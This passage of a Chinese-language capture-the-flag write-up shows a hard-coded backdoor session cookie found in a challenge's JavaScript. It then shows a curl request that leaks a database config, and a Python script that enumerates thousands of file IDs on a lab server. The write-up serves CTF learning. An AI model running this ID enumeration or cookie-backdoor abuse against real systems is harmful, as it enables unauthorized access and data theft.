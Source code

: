 ```javascript!
// Backdoor function - ez_login()
function ez_login() {
	document.cookie = "PHPSESSID=secretbackdoor123";
	location.reload();
}
```

就在 console 中打 `ex_login()` 之後就到了 `http://172.31.0.2:8057/index.php` 發現有很多檔案可以下載

![image](https://hackmd.io/_uploads/ByXXZPMPJl.png)

通靈試試看上面沒有的 ID

```shell!
$ curl http://172.31.0.2:8057/download.php\?file_id\=11001
database:
  host: localhost
  user: admin
  password: [REDACTED]
```

發現了非預期的結果，於是我叫 GPT 寫了個程式幫我遍歷 id=10000~20000 的所有檔案，如果回傳結果不是 `This is a normal file with ID:` 或 `File not found` 為開頭就列出來

```python
import requests

# 定義 URL 和檔案 ID 範圍
base_url = "http://172.31.0.2:8057/download.php"
start_id = 10000
end_id = 20000

# 記錄非預期回應
unexpected_responses = {}

# 開始嘗試下載
for file_id in range(start_id, end_id + 1):
    params = {"file_id": file_id}
    try:
        response = requests.get(base_url, params=params)
        if response.status_code == 200:
            content = response.text
            # 過濾預期內容
            if not (content.startswith("This is a normal file with ID:") or "File not found" in content):
                print(f"[{file_id}] 非預期內容")
                print(content)
                unexpected_responses[file_id] = content
    except Exception as e:
        print(f"[{file_id}] 請求失敗: {e}")
```

發現了可能最怪的東東是

